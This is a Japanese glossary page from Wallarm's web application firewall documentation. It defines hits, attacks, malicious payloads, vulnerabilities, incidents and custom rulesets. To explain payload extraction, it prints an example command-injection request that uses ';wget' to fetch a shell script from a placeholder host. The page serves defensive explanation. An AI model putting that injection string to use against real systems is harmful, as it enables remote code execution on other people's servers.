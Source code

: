 # 用語集

この用語集は、Wallarmの主要なエンティティを理解するためのものです。

## ヒット

ヒットは、シリアライズされた悪意のあるリクエスト（オリジナルの悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）です。例：

![!Hit の例](images/user-guides/events/analyze-attack-raw.png)

[ヒットのパラメータ詳細](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです：

* 同じ攻撃タイプ、悪意のあるペイロードが含まれているパラメータ、そしてヒットが送られたアドレス。ヒットは、同じまたは異なるIPアドレスから来ており、同一の攻撃タイプ内で悪意のあるペイロードの値は異なることがあります。

    このヒットのグループ化方法は基本的なもので、すべてのヒットに適用されます。
* 同じ送信元IPアドレス（適切な [トリガー](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効化されている場合）。他のヒットのパラメータ値は異なることがあります。

    このヒットのグループ化方法は、ブルートフォース、強制ブラウジング、BOLA（IDOR）、リソース越過、データ爆弾、仮想パッチの攻撃タイプを除くすべてのヒットで機能します。

    ヒットがこの方法でグループ化されている場合、 [**偽陽性としてマーク**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.md#active-threat-verification)のオプションは、攻撃に使用できません。

挙げられたヒットのグループ化方法は相互に排他的ではない。ヒットが両方の方法の特性を持っている場合、それらはすべて一つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![!一つのヒットを含む攻撃](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![!いくつかのヒットを含む攻撃](images/glossary/attack-with-several-hits-example.png)

## 悪意のあるペイロード

オリジナルのリクエストの一部で、以下の要素を含みます：

* リクエストで検出された攻撃の兆候。同種の攻撃を特徴付けるいくつかの攻撃の兆候がリクエストで検出された場合、最初の兆候だけがペイロードに記録されます。
* 攻撃の兆候のコンテキスト。コンテキストは、検出された攻撃の兆候の前後を囲む一連の記号です。ペイロードの長さが制限されているため、攻撃の兆候が全ペイロード長の場合、コンテキストは省略できます。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードにおける `;wget+`は [RCE](attacks-vulns-list.md#remote-code-execution-rce) 攻撃の兆候で、ペイロードの他の部分は攻撃の兆候のコンテキストです。

攻撃の兆候は[行動的攻撃](about-wallarm/protecting-against-attacks.md#behavioral-attacks)を検出するためには使用されないため、行動的攻撃の一部として送信されたリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装時に無視や情報不足から生じた誤りで、情報セキュリティリスクにつながります。

情報セキュリティリスクには以下のものがあります：

* 不正アクセス；例えば、ユーザーデータの読み取りや修正へのアクセス。
* サービス妨害。
* データの破壊等。

インターネットのトラフィックは脆弱性の検出に使うことができ、これがWallarmの機能の一部です。

## セキュリティインシデント

セキュリティインシデントとは脆弱性が悪用された事象のことです。インシデントは確認された脆弱性に対する [攻撃](#attack) です。

インシデントは攻撃と同様に、あなたのシステム外部のエンティティであり、外部インターネットの特性であり、システム自体の特性ではありません。既存の脆弱性に対する攻撃が少数であるにも関わらず、情報セキュリティにおいては最も重要です。Wallarmは既存の脆弱性に対する攻撃を自動的に検出し、それらを個別のオブジェクトとして表示します - インシデント。

## リングバッファ
リングバッファは、単一の固定サイズのバッファを端から端まで接続されているかのように使用するデータ構造です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Circular_buffer)。

## カスタムルールセット（旧称はLOM）

カスタムルールセットは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用すると、トラフィック処理の個別のルールを設定することができます。例えば：

* Wallarm Cloudにアップロードする前に機密データをマスク
* 正規表現ベースの攻撃指数を作成
* アクティブな脆弱性を利用するリクエストをブロックする仮想パッチを適用
* 特定のリクエストの攻撃検出を無効にする等。

カスタムルールセットはデフォルトでは空ではありません。クラウドに登録されたすべてのクライアントのルールが含まれています。例えば、 [**設定 → 一般** タブ](user-guides/settings/general.md)からのフィルタリングモードルールの値等。

[カスタムルールセット詳細](user-guides/rules/intro.md)

## 無効なリクエスト
フィルターノードによってチェックされ、LOMのルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシは、クライアントの代わりにサーバーからリソースを取得し、それをWebサーバー自体から来たかのようにクライアントへ返すタイプのプロキシサーバーです。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Reverse_proxy)。

## 証明書発行機関
証明書発行機関（CA）はデジタル証明書を発行する機関です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Certificate_authority)。